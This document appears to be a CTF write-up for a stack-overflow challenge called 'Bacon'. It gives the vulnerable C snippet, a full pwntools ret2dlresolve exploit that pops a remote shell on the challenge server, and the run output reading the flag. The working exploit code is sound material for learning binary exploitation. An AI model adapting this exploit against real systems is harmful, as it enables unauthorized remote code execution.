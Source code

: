 # Bacon

This is quite a good challenge. We were given a binary and it had a stackoverflow vulnerability, the program was:-

```C
int main()
{
  char buf[1036];
  read(0, buf, 1056)
}
```

Although, it had stackoverflow vulnerability I couldn't get to understand how to pwn this, since there wasn't anything to leak any address so the ret2libc was out of option here, then I thought of ret2dl_resolve, this technique I learned about does not require any address leak, it will exploit the `dl_runtime_resolve` to exploit the link map of the functions. Using pwntools's ROP module, it was a piece of cake.

Exploit:-

```py
from pwn import *


p = remote("jh2i.com", 50032)

rop = ROP("bacon")
elf = ELF("bacon")

dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)

raw_rop = rop.chain()

pause()
payload = b"A"*1036
payload += raw_rop
payload += dlresolve.payload

p.send(payload)
p.interactive()
```

Running the exploit:-

```r
0 [07:39:10] vagrant@oracle(oracle) pwn> python3 bacon.py 
[+] Opening connection to jh2i.com on port 50032: Done
[*] '/home/vagrant/CTFs/hacktivity/pwn/bacon'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Loading gadgets for '/home/vagrant/CTFs/hacktivity/pwn/bacon'
[*] Paused (press any to continue)
[*] Switching to interactive mode
$ ls
bacon
flag.txt
$ cat flag.txt
flag{don't_forget_to_take_out_the_grease}
$ 
[*] Interrupted
```